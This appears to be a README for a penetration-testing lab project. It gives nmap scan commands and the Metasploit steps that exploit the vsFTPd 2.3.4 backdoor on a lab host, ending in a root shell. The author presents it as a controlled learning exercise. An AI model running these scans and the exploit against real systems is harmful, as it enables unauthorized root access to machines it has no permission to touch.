







# Nmap VSFTPD Exploitation Project

This project demonstrates how to identify and exploit a vulnerability in the vsFTPd 2.3.4 service using **Nmap** and **Metasploit** within a controlled lab environment.

## 🔍 Overview

This step-by-step guide walks through scanning a vulnerable target using `nmap`, discovering a backdoor on the FTP port, and gaining root access via `Metasploit`.

---

### 🚀 Step 1: Discover if the Target is Up (Host Discovery)
```
nmap -sn 192.168.25.128 -oN scans/01-host-discovery.txt
```


### 🔥 Step 2: Full TCP Port Scan (All 65535 Ports)
```
nmap -p- -T4 192.168.25.128 -oN scans/02-full-port-scan.txt
```


### Step 3: Service & Version Detection + Default Scripts
```
nmap -sC -sV -p- 192.168.25.128 -oN scans/03-service-detection.txt
```



### Step 4: Vulnerability Scanning with NSE
```
nmap --script vuln -p 21,22,23,25,53,80,111,139,445,3306 192.168.25.128 -oN scans/04-vuln-scan.txt
```



---

## 💥 Exploiting vsFTPd 2.3.4 Backdoor with Metasploit

### Step-by-Step Exploit

1. Launch Metasploit:
   ```bash
   msfconsole
   ```
2. Search for the module:
   ```bash
   search vsftpd
   ```
3. Use the exploit:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.25.128
   set RPORT 21
   run
   ```
4. If successful, you’ll see:
   ```
   Command shell session X opened ...
   ```
5. Run:
   ```bash
   id
   ```
   Output:
   ```
   uid=0(root) gid=0(root)
   ```

✅ You now have root shell access!


---

## 📘 Real-World Application

This was a **controlled simulation** where I learned how to identify services and exploit a known vulnerability using **Nmap** and **Metasploit**.

In real-world penetration testing or vulnerability assessments, I follow the **same core phases**:
- **Discovery**: Identifying live hosts and open ports
- **Enumeration**: Gathering detailed information about services and versions
- **Exploitation**: Ethically attempting to exploit known vulnerabilities to validate risk

🔒 **Important Note**:  
The tools and commands may vary based on the target systems, environments, and client requirements. However, the **methodology remains consistent** - understanding why a vulnerability exists, **how it can be exploited ethically**, and most importantly, **how to help clients remediate the issue**.

---

## 🛠️ Tools Used
- Nmap
- Metasploit Framework (msfconsole)
- Kali Linux

## 📌 Disclaimer

This was done in a controlled lab environment for learning purposes only.


